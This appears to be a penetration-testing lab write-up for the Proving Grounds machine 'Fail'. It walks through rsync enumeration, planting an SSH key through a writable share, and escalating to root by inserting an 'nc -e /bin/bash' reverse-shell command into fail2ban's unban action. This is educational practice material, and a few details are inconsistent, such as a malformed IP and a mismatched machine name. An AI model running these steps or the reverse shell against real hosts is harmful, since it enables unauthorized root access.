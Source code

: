 ```yaml
---
title: Proving Grounds - Fail
date: 2022-08-08 12:00:00 -500 
categories: [Proving Grounds]
tags: [oscp,linux]
---
```


# Bratarina Overview

Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|192.168.61.126|Fail|Linux|

## Path to Exploitation



# Fail Enumeration

## Full Port Scan

```bash
nmap -p- -Pn -oA nmap/full-port --open 192.168.61.126
```

Results:

|Port|Service|
|--|--|
|22|ssh|
|873|rsync|

## Service Scan

|Port|Service|Version|
|--|--|--|
|22|ssh|OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)|
|873|rsync|(protocol version 31)|

## rsync Scans

```bash
nmap -sV --script rsync-list-modules -oA nmap/rsync-scan 192.168.61.126 873
```

Results:

We find a share

![RSync Share](/assets/ProvingGrounds/Fail/rsync-share.png)

# RSync
We can enumerate the share with the following command:

```bash
$ rsync -av --list-only rsync://192.168.61.126/fox
```

![Share Contents](/assets/ProvingGrounds/Fail/share-content.png)

We can also download the files with the following command:

```bash
$ rsync -av rsync://192.168.156.126/fox ./rsyn_shared
```

Testing file upload

```bash
$ touch test
$ rsync test 192.168.x.126::fox
$ rsync -av --list-only rsync://192.168.61.126/fox
```

![File Upload](/assets/ProvingGrounds/Fail/file-upload.png)

We have file upload capabilities to the share.

# Shell on Fail
We can create an SSH key pair and upload our public key to the host

![Keygen](/assets/ProvingGrounds/Fail/key-gen.png)

Create the authorized_keys file and upload it to the .ssh directory

![Upload Key](/assets/ProvingGrounds/Fail/key-upload.png)

SSH into the host as the fox user

![SSH](/assets/ProvingGrounds/Fail/ssh.png)

# Privilege Escalation
Modify the file to contain the following command on the actionunban command line:

```bash
nc -e /bin/bash 192.168.168.49.177 443
```

![Modify Command](/assets/ProvingGrounds/Fail/privesc-exploit.png)

Setup the nc listener and attempt several incorrect SSH attempts to trigger the command

![Execute the Exploit](/assets/ProvingGrounds/Fail/privesc-execute.png)

Now wait for the service to restart and execute the unban command. We will see that we caught a reverse shell running as root.

![Getting a Root Shell](/assets/ProvingGrounds/Fail/root-shell.png)
